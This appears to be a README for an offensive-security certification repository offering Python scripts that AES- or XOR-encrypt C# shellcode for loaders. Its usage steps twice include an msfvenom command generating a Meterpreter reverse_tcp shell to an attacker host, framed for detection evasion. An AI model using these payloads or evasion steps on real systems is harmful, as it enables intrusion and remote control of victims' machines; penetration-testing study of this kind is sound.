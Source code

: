 # OSEP
This will eventually become an OSEP code repository. 
For now I am placing 2 python scripts to help out with encrypting your shellcode.  
You have the option of using aes256.py OR xor.py depending what you are using for your c# shellcode!


I've seen other repos that made the same tool but in c#, I figured i'd try and do it in python and make it a bit easier to copy and paste over to your code!



  ## AES256enc.py What does it do.
This Python script encrypts c# shellcode using AES (Advanced Encryption Standard) in CBC (Cipher Block Chaining) mode.  
It generates a random AES key and IV (Initialization Vector), encrypts the shellcode, and outputs the encrypted data in a format compatible with C# applications.

**Output Results:**
- C# AES Key: The AES encryption key in xx-xx format.
- C# IV Key: The initialization vector (IV) in xx-xx format.
- C# Encrypted Shellcode: A formatted byte array containing the encrypted shellcode and its size, ready to use in C# applications.


## AES256enc.py Requirements
AES256.py uses cryptodome for AES and padding. In order to install you need to run  
`sudo apt update`  
`sudo apt install python3-pycryptodome`


## Usage
- create msfvenom shellcode in csharp format.  
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp`
- now copy all shellcode in between {} and place it into buf contents of the script.
-  now run `python3 aes256enc.py`
- Shellcode has been formatted to paste into 1 line when you copy it over to visual studio code.
- Copy keys and shellcode into your c# program and enjoy!

  # Xorenc.py what does it do
  This Python script generates a random XOR key and encodes shellcode for use in C# applications. The encoded payload is formatted as a C# byte[] array, ready for integration into your projects.

  ## Features
  - Random XOR Key Generation: Produces a single-byte XOR key for obfuscating shellcode.
  - Shellcode Encoding: Encodes raw shellcode using the generated XOR key.
  - C# Output Formatting: Outputs the encoded payload as a byte[] array, compatible with C#.
 
  ## Usage
- create msfvenom shellcode in csharp format.  
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp`
- now copy all shellcode in between {} and place it into buf contents of the script.
-  now run `python3 xorenc.py`
- Shellcode has been formatted to paste as 1 line when you copy it over to visual studio code.
- Copy key and shellcode into your c# program and enjoy!



